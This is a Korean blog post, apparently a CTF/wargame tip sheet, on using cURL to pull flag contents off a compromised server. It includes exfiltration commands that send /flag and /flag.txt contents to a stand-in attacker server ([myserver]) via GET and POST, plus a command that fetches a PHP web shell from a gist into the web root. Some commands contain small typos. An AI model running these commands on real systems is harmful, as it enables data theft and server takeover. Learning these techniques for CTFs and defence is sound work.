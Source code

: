 ```yaml
---
title: cURL with CTF
date: 2024-01-09
author: glasses96
categories: [Etc]
tags: [cURL,CTF]
pin: true
math: true
mermaid: true
---
```


> **CTF나 워게임 문제를 풀 때 쉘 명령어로 /flag를 실행시키거나, /flag.txt와 같은 파일 내용을 가져와야 하는 경우가 있습니다.**  
> **이런 상황에서 쉘을 연결하지 않고 cURL를 이용하는 여러가지 방법을 알아봅시다.**     
{: .prompt-info }

## What is Curl??
[cURL](https://curl.se/)은 client URL 이라는 뜻을 가지고 있습니다.  
지원하는 프로토콜을 이용하여 URL로 데이터를 전송하여 서버에서 데이터를 보내거나, 가져옵니다.  

CTF/워게임에서 명령어 실행이 가능할 때 `/flag, /flag.txt`에 있는 결과를 공격자의 서버로 전달하기 위해 자주사용합니다.  

`여기서 웹과 연결된 쉘이 바이너리 파일에 실행권한이 있어야 전달이 가능하며, flag.txt에는 읽기 권한이 있어야 전달이 가능합니다.`

## Example cURL
다음과 같이 서버에 `flag` 바이너리와 `flag.txt` 파일이 존재합니다.
![flag](/assets/post/53/1.png)

### GET Request Server
`GET` 통신을 이용하여 서버에 전달하는 방법입니다.  
Payload를 보면 base64 인코딩을 하여 전달하는데 이는 그냥 전달 시 `{,}` 가 해석이 안되어 전달 자체가 불가능합니다.  
이런경우 `-g`, `--globoff` 옵션을 주어 globbing을 끄면 되지만 내용에 공백이 있을 경우 또한 전달이 불가능합니다.

```sh
#/flag
curl http://[myserver]/?flag=`/flag|base64 -w0
```

![flag1](/assets/post/53/2.png)

```sh
curl http://[myserver]/?flag=`cat /flag.txt|base64 -w0`
```
![flag1.txt](/assets/post/53/3.png)

### POST Request Server
`POST` 통신을 이용하여 서버에 전달하는 방법입니다.

`-d`, `--data` 옵션을 주어 파일 내용을 전달 할 수 있습니다.

```sh
curl -x POST http://[myserver]/ -d @/flag.txt
```
![flag2](/assets/post/53/4.png)

### File upload
-o 옵션을 주어 외부에서 파일을 가져와 서버에 업로드 할 수 있습니다.  
웹 쉘을 웹루트 폴더에 업로드가 되면 이를 이용이 가능합니다.  

`다만 curl의 명령어를 실행하는 위치에 파일 쓰기가 가능한 경우 사용이 가능합니다.`
```sh
curl -0 webshell.php https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985
```
![phpupload](/assets/post/53/5.png)

## URL globbing
curl은 [URL Globbing](https://everything.curl.dev/cmdline/globbing)이 가능합니다.  
간단하게 요약하자면 예약된 문자 `{}, []`를 사용하여 범위 입력이 가능합니다.  

예시로 flag.txt 파일이 flag.랜덤한 8자리.txt 이런식으로 랜덤 값을 추측해야하는 경우 사용이 가능합니다. 
다만 이런 경우 위에서 보았던 `GET, POST`에서 보았던 것 처럼은 사용은 안되지만 `file://` 스킴이 사용 가능할 때 유용합니다.

```sh
flag99.txt -> flag[0-9][0-9].txt
curl file:///flag[0-9][0-9].txt
```
![URL Globbing](/assets/post/53/6.png)

## 후기
더 다양한 방법이 있을 것으로 예상되지만 우선은 여기까지!